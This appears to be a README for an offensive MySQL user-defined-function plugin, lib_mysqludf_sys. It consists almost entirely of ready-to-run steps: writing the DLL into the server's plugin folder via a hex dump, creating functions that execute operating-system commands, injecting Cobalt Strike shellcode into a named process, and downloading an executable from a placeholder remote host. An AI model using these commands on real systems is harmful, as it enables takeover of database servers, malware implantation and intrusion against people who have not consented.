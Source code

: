 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file


## Sys_exec

``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec; ```

``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec; ```

## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode

```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; 
select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```

